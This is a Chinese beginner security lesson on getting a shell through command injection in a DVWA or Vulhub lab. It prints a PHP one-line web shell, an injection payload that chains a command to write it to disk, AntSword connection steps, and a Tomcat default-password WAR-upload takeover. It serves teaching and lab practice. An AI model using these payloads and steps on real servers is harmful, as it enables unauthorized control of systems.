# 网络安全入门：P13：从命令执行漏洞到getshell（2）

## 概述

在本节课中，我们将学习如何利用命令执行漏洞获取目标网站的控制权，即“getshell”。我们将重点介绍一种基础且重要的攻击手法——Web Shell，并学习如何使用工具连接和管理Web Shell，最终通过复现一个历史漏洞（Tomcat弱口令）来实践整个攻击流程。

## Web Shell简介

上一节我们介绍了命令执行漏洞的基本概念，本节中我们来看看如何利用这类漏洞获取一个持久的控制入口，即Web Shell。

Web Shell可以简单理解为网站的后门木马。针对不同的网站后端编程语言（如PHP、JSP、ASP.NET、Python等），都有相应的Web Shell。攻击者将Web Shell上传到目标服务器后，便可以通过它远程控制网站。

## PHP一句话木马

下面我们来了解针对PHP语言最简单的一种Web Shell——一句话木马。所谓一句话木马，是指仅用一行代码就能实现木马功能。

PHP的一句话木马通常如下所示：
```php
<?php eval($_POST['cmd']); ?>
```
这段代码的含义是：
*   `<?php ... ?>`：标识其中的内容是PHP代码。
*   `eval()`：这是PHP的一个语言构造器，其作用是将传入的字符串当作PHP代码来执行。
*   `$_POST['cmd']`：接收用户通过POST请求传递过来的名为`cmd`的参数。

**危害**：攻击者可以通过向`cmd`参数传递任意PHP代码字符串，让服务器执行，从而完全控制服务器，例如植入勒索病毒、挖矿程序等。



**为什么`eval()`危险却未被移除？** 因为`eval()`是PHP中一个正常且常用的语言构造器，许多框架和程序都依赖它来实现动态代码执行等功能，因此PHP官方无法将其移除。类似的危险函数还有`assert()`等。





## 上传并利用Web Shell







利用Web Shell进行攻击，需要掌握三个关键点：**上传位置**、**上传方法**和**访问方法**。



### 1. 上传Web Shell



我们以DVWA靶场为例，假设已存在一个命令执行漏洞点。我们可以通过该漏洞点直接写入一句话木马文件。

上传命令示例（在存在漏洞的输入框中执行）：
```bash
127.0.0.1 && echo "<?php eval(\$_POST['cmd']); ?>" > 1.php
```
*   `127.0.0.1`：原漏洞点需要执行的正常命令。
*   `&&`：逻辑与，前一条命令执行成功后，才执行后面的命令。
*   `echo ... > 1.php`：将一句话木马的内容写入到服务器当前目录下的`1.php`文件中。
*   **注意**：`$_POST`中的`$`符号在Linux命令行中需要转义（`\`），否则会被系统当作变量处理。

执行后，访问 `http://靶场地址/1.php`，如果页面显示为空白（而非`404 Not Found`），则说明木马上传成功。

### 2. 连接与管理Web Shell

木马上传后，我们需要使用工具来连接并管理它。这类工具称为Web Shell管理器。





以下是常见的Web Shell管理器：
*   **蚁剑(AntSword)**：国人开发，更新活跃，对新手友好，文档齐全。
*   **中国菜刀/中国C刀**：经典工具，但对新型Web Shell支持可能较弱。
*   **冰蝎(Behinder)/哥斯拉(Godzilla)**：流量经过加密，更隐蔽，建议新手先掌握蚁剑后再学习。

我们以**蚁剑(AntSword)**为例进行学习。





**蚁剑使用方法：**
1.  **下载与安装**：访问蚁剑官方文档，下载“加载器”和“源代码”，按照文档指引安装。
2.  **添加Shell**：
    *   运行蚁剑，在空白处右键点击“添加数据”。
    *   `URL地址`：填写Web Shell的访问地址，如 `http://靶场地址/1.php`。
    *   `连接密码`：填写一句话木马中`$_POST[‘ ‘]`里的参数名，本例中为`cmd`。
    *   其他配置可保持默认，点击“测试连接”，显示成功即可添加。
3.  **管理服务器**：双击添加的Shell，即可进入管理界面。
    *   **文件管理**：可以浏览、下载、上传、删除服务器上的文件。
    *   **虚拟终端**：可以执行系统命令，获得对服务器的命令行控制权。





通过蚁剑，我们就完成了从漏洞利用到获取服务器控制权的全过程。



## 漏洞复现实践：Tomcat弱口令Getshell





理论学习后，我们必须通过实践来巩固。我们将使用Vulhub靶场环境复现一个历史漏洞。



Vulhub是一个基于Docker的漏洞靶场集合，包含了大量常见漏洞的环境。学习漏洞复现是安全学习中最重要的一环。

**复现流程：**



1.  **启动靶场**：根据Vulhub官方文档，找到`tomcat/tomcat8`弱口令漏洞目录，执行`docker-compose up -d`启动环境。
2.  **访问管理页面**：访问 `http://靶场IP:8080`，点击`Manager App`进入管理登录页面。
3.  **利用弱口令**：输入Tomcat的默认弱口令用户名`tomcat`，密码`tomcat`，成功登录后台。
4.  **上传WAR包木马**：
    *   **准备木马**：从蚁剑官方获取JSP版本的Web Shell代码（一个`.jsp`文件）。
    *   **打包**：将该`.jsp`文件压缩成ZIP包，然后将其后缀名直接改为`.war`（例如`shell.war`）。WAR包是Java Web应用程序的打包格式。
    *   **上传**：在Tomcat管理后台的`WAR file to deploy`区域，选择制作好的`.war`文件，点击部署。
5.  **访问并连接Web Shell**：
    *   部署成功后，访问 `http://靶场IP:8080/shell/木马文件名.jsp`（例如`http://靶场IP:8080/shell/index.jsp`），出现空白页面说明成功。
    *   在蚁剑中添加该URL，连接密码填写JSP木马中定义的密码（默认为`ant`），即可成功连接并控制服务器。





## 总结

本节课中我们一起学习了Web Shell攻击的完整链条：
1.  **理解核心**：认识了Web Shell，特别是PHP一句话木马`<?php eval($_POST[‘cmd’]); ?>`的原理与危害。
2.  **掌握流程**：明确了攻击的三个关键步骤：上传、连接、管理，并使用蚁剑工具进行了实践。
3.  **实战复现**：通过Vulhub靶场，动手复现了Tomcat弱口令漏洞，并成功上传WAR包格式的Web Shell获取了服务器控制权。



